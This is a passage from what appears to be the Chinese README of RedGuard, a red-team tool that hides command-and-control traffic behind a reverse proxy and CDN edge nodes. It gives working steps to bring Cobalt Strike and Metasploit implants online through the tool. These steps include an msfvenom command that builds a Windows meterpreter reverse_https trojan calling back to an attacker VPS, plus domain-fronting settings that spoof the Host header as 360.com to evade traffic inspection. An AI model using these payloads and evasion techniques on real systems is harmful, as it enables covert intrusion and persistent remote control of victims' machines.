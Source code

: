 而对于HTTPS的流量，市面上任何一个流量监测设备都是无法审查流量的，目前的监测设备本质上都是敏感词匹配，甚至于某个厂商设备数据包检测的比赛中，要求使用明文包，不禁让人怀疑在实战场景下真的会有RT用明文流量交互吗？

而除了上面讲到的交互信息不对称，这种方式最大的好处就是将RG节点放置到了边缘节点从而实现前置流量控制，而RG节点的后置节点变为了CDN节点转发至C2服务器，常规场景下域前置都是作为第一层请求节点的，而边缘主机上线则放置到了RG之后实现上线，DMZ区域的业务系统与公网CDN IP交互看起来也是那么的和谐。而在这个过程中，内网主机以及边缘主机都没有直接与我们的C2进行交互，也是这种高级隐匿手法优雅所在。

**当然除了上面提到比之netsh、iptables代理中转上线更好的因素之外，简易的配置以及不存在配置记录也是优点之一。**

## CobaltStrike上线

如果说上面的这种方式有一个问题就是，实际上线的C2服务器是不能通过防火墙直接拦截掉的，因为在反向代理中实际进行负载均衡请求的是云服务器厂商IP进行的。

如果是单兵作战的话，我们可以在云服务器防火墙设置拦截策略。

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150356-58b9586c-d99d-1.png)

然后把代理指向的地址设置为https://127.0.0.1:4433这种即可。

```bash
{"360.net":"http://127.0.0.1:8080","360.com":"https://127.0.0.1:4433"}
```

而且因为我们的基础验证就是基于HTTP HOST请求头来做的，所以在HTTP流量中看到的也是与域前置的方式一致，但是成本更低，只需要一台云服务器即可实现。

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150942-26f6c264-d99e-1.png)

对于监听器的设置上线端口设置为RedGuard反向代理端口，监听端口为本机实际上线端口。

## Metasploit上线

**生成木马**

```bash
$ msfvenom -p windows/meterpreter/reverse_https LHOST=vpsip LPORT=443 HttpHostHeader=360.com 
-f exe -o ~/path/to/payload.exe
```

当然作为域前置场景也可以把你的LHOST配置为任意使用该厂商CDN的域名，注意设置HttpHostHeader与RedGuard相符即可。

```bash
setg OverrideLHOST 360.com
setg OverrideLPORT 443
setg OverrideRequestHost true
```

请务必注意，该`OverrideRequestHost`设置必须设置为`true`。这是由于 Metasploit 在为暂存有效负载生成配置时默认处理传入 HTTP/S 请求的方式的一个怪癖。默认情况下，Metasploit 将传入请求的`Host`标头值（如果存在）用于第二阶段配置，而不是`LHOST`参数。因此，将生成阶段配置，以便将请求直接发送到您的隐藏域名，因为 CloudFront 在转发请求的`Host`标头中传递您的内部域。这显然不是我们所要求的。使用`OverrideRequestHost`配置值，我们可以强制 Metasploit 忽略传入`Host`的标头，而是使用`LHOST`指向原始 CloudFront 域的配置值。

监听器设置为实际上线端口，与RedGuard实际转发到的地址相匹配。

![867551fe860b10ca1396498a85422b4.jpg](https://github.com/wikiZ/RedGuardImage/raw/main/73315c83562826f16f64e2b277736c1.png)

RedGuard接收到请求：

![867551fe860b10ca1396498a85422b4.jpg](https://github.com/wikiZ/RedGuardImage/raw/main/159a00e6c5596bc3542701b4a8020b1.png)
